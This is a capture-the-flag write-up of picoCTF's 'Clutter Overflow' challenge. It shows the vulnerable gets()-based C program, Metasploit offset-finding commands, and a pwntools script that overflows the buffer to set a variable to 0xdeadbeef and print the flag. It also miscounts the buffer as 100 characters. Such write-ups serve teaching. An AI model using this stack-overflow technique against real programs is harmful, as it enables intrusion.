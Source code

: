 <h1><b>Clutter Overflow</b> Challange from PicoCTF</h1>
<h2>Writup</h2>
Video Writup: https://www.youtube.com/watch?v=rdWtcwosHrk <br>
challange link: https://play.picoctf.org/practice/challenge/216?category=6&page=1 <br>
points : 150

<b>Description</b>: Clutter, clutter everywhere and not a byte to use. 

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
From the very first look, we can see at line number 50 gets function is used, which is vulnerable for Buffer overflow vulnerability, so what program doing is it declared global variable GOAL 0xdeadbeef, and code = 0 in the main function. first, it will ask for the user input, whose size expected by the program should be max. 100 char. now there is an if condition which checks code == GOAL ( which is false from the declaration of variables from the program), if it is true it will cat the flag.txt, otherwise, it will exit after printing code value.

![](1st.png)

If we put 300 char long string as an input, the value of the code variable get overwritten, so what we can do is we can try to overwrite the value of the code variable in the stack to 0xdeadbeef, so if the condition becomes true and the program will cat the flag.txt

<h1><b>EXPLOITATION</b></h1>
for overwriting the value of variable code, we must know after putting how much number of character, the value of code is overwrited. for that we can use meta-
sploit-framework's exploits.
creating pattern string of 300 char:

> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300

<b>output</b>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
so lets put this pattern string in chall as an input

![](2nd.png)

so after putting above pattern, value of code variable become 0x6a41396941386941 , to find the exact match of this sting within the pattern we will use another
metasploit-framework's exploit

> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 6a41396941386941

![](3rd.png)

So the value of code varible is overwritten by the char we had put after putting 264 chars.

to confirm this, what we can do is, we can give a payload of 'A'*264 + 'BCDEF' to the program, so if code variable value comes to 0x4645444342 (which is the value 
of 'BCDEF' in little endian hex), then our exploit gave the correct result.
![](4th.png)
So from the above, we have confirmed that we can overwrite the value of code variable with the chars comes after putting 264 chars.
so we can write an small pwn exploit, to do this

```
import pwn

host = "mars.picoctf.net"
port = 31890
s = pwn.remote(host,port)
s.recvline()
s.recvline()
s.recvline()
payload = b'A'*264 + pwn.p64(0xdeadbeef)
s.sendline(payload)
s.interactive()
s.close()
```
SO what we have did here is, we establish a remote tcp connection with server, then we did s.recvline() to recieve the banner and question. 
then we crafter our payload, since we need to make the if condition true to get the content of flag.txt, we have added pwn.p64(0xdeadbeef) after 264 char.
so it will make the value of code variable same as GOAL variable. after sending the payload, we will have our flag.
![](5th.png)
<br>
  <b> Thank You</b>
                                                                                                              

